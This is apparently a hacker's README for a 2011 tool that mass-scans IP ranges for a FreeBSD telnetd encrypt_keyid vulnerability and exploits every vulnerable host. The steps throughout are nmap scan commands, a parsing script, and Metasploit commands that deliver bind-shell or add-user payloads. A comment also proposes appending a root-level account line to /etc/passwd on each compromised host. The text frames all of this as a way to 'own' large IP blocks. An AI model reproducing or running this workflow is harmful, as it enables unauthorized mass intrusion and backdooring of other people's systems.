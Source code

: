 Free-BSD
========

Remember when FreeBSD was hit w/the telnet vuln, and people went crazy to own it .. well this was (now oudated) tool that allowed for scanning and owning of large IP blocks. 


//----------------------------
// Telnetd stitching
// - "scan, collect, exploit"
// by: sk
// updated: 12/29/11
//
// Todo: Make 100% autonomous
// Todo: Add support for linux
// Thoughts: Perhaps we just run a single command on each host
//	this way we require no user interaction. For example:
// 	echo "blah:hashhashhashhash:0:0:Blah:/var/root:/bin/sh" >> /etc/passwd
// 
// Shoutz: Bindshell crew, ohdae, vorbs, et all.
//-----------------------------

t
--- Setup / PreReqs
-------------------

* Update metasploit via svn up
- cd /opt/metasploit3/msf3; svn up

       FreeBSD, works:
       use exploit/freebsd/telnet/telnet_encrypt_keyid 
       set payload bsd/x86/shell/bind_tcp

       Linux, (haven't tested...):
       use exploit/linux/telnet/telnet_encrypt_keyid 
       set payload/linux/x86/adduser


* Update nmap (download and build from source)
- svn co https://svn.nmap.org/nmap
- cd nmap; configure; make


--- Vuln search, exploiting
---------------------------

* Run nmap against your host(s):
./nmap -p23 -PS23 --script telnet-encryption -T5 -oA telnet_logs <IP...>

* Parse output: 
php parseGnmap.php -f telnet_logs.gnmap -o outfile.txt

* Now run the file and sploit each host:
- chmod +x outfile.txt
- ./outfile.txt
  (example: msfcli exploit/freebsd/telnet/telnet_encrypt_keyid RHOST=<IP> PAYLOAD=bsd/x86/shell/bind_tcp E)
 
